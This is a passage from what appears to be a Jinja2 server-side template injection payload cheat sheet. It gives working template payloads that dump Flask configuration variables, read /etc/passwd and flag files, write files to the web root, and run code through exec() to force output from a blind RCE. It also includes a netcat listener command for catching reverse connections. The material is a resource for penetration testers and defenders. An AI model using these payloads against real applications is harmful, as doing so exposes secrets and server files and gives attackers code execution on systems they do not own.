 ### Jinja2 - Dump all config variables

```python
{% for key, value in config.iteritems() %}
    <dt>{{ key|e }}</dt>
    <dd>{{ value|e }}</dd>
{% endfor %}
```

### Jinja2 - Read remote file

```python
# ''.__class__.__mro__[2].__subclasses__()[40] = File class
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/tmp/flag").read() }}
# https://github.com/pallets/flask/blob/master/src/flask/helpers.py#L398
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```

### Jinja2 - Write into remote file

```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/var/www/html/myflaskapp/hello.txt', 'w').write('Hello here !') }}
```

### Jinja2 - Remote Code Execution

Listen for connection

```bash
nc -lnvp 8000
```

#### Jinja2 - Forcing output on blind RCE

You can import Flask functions to return an output from the vulnerable page.

```py
{{
x.__init__.__builtins__.exec("from flask import current_app, after_this_request
@after_this_request
def hook(*args, **kwargs):
    from flask import make_response
    r = make_response('Powned')
    return r
")
}}
```


#### Exploit the SSTI by calling os.popen().read()

These payloads are context-free, and do not require anything, except being in a jinja2 Template object:
